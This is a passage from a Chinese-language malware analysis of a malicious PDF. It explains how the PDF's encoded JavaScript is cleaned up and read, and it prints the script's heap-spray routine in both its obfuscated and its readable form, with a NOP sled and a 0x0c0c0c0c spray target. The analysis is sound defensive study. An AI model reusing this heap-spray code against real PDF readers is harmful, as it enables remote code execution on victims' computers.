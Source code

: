 附件中的例子有恶意代码的部分是明文存放的，因此要对它的代码进行阅读和Shellcode的抽取应该是相当简单的。

![enter image description here](http://drops.javaweb.org/uploads/images/d19d29f8487c54e7abb365edb74ec3725326955d.jpg)

还有一点是PDF中的JS并不是多“标准”，有个明显的特征是它的内容会经过一层编码，例如上图\全部被编码成了\，工具可以做简单清理，如上图所示。

其实清理之后，留下来了很多\”，虽然不会产生语法错误，不过看起来还是很别扭，也可以手动再把这些\都删掉。还有开头的例如(?function ...需要手动删除成(function ...。

清理完的代码见附件malicious_VI.rar 的 pdf.js.txt。

简单地阅读一下代码，虽说一眼就能看出来awn5fmmtY 这个变量就是Shellcode，和、至少是它的绝大部分，但是还是看一看吧：

![enter image description here](http://drops.javaweb.org/uploads/images/7cb450879d7a22f11a1d89400a0ea241870b114f.jpg)

一番阅读之后，可以发现这里使用了`app[’eval’](xxxx)`，正如你所见，不是他替换了什么东西，而是PDF中的eval函数实际上是属于app对象的，而不是window对象。具体可以参照参考资料[2](http://drops.wooyun.org/wp-content/uploads/2015/06/image0033.png)，Adobe的开发资料。

![enter image description here](http://drops.javaweb.org/uploads/images/5cc7365c51fa02d29b275b152a0fd64a3f039d32.jpg)

最终执行的就是这么一段

![enter image description here](http://drops.javaweb.org/uploads/images/4aa96f97442f1ed0a846ec93dc474dc33a0ae557.jpg)

为了不让图太大，我把字号缩小了，具体可参照附件。

这一段中，采用了`awn5fmmtY = unescape(awn5fmmtY.join(""));`的方式将这个Array输出成一个字符串。然后就是简单的堆喷过程，

![enter image description here](http://drops.javaweb.org/uploads/images/6d0e7aa71ee5e1012fab239d641a4dbb4a23715d.jpg)

我们手动改一下变量就能看的很清楚了：

```
var fK2iJohU = 0x400000;
var mTcRGdIAFp = awn5fmmtY.length * 2;
var kIkwRkWL = fK2iJohU - (mTcRGdIAFp + 0x38);
var sR4ZJ8w7ci = unescape("%u9090%u9090");
sR4ZJ8w7ci = xZltXdRrA(sR4ZJ8w7ci, kIkwRkWL);
var lFu82BhUm = (h8qcONPj - 0x400000) / fK2iJohU;
for(var ho7zfzSpA2 = 0; ho7zfzSpA2 < lFu82BhUm; ho7zfzSpA2++)
{
    rTq8VBM7[ho7zfzSpA2] = sR4ZJ8w7ci + awn5fmmtY;
}

```

改为方便人阅读的代码就是：

```
var  arr = new Array();
var  blockSize = 0x400000;
var  shellcodeSize = shellcode.length * 2;
var  spraySize =  blockSize - (shellcodeSize + 0x38);
var  nops = unescape("%u9090%u9090");
nops = extendStrForXXTimes(nops, spraySize);
var sprayTarget = 0x0c0c0c0c;
var  fillTimes = (sprayTarget - 0x400000) / blockSize;
for(var i = 0; i < fillTimes; i++)
{
  arr[i] = nops + shellcode;
}

```
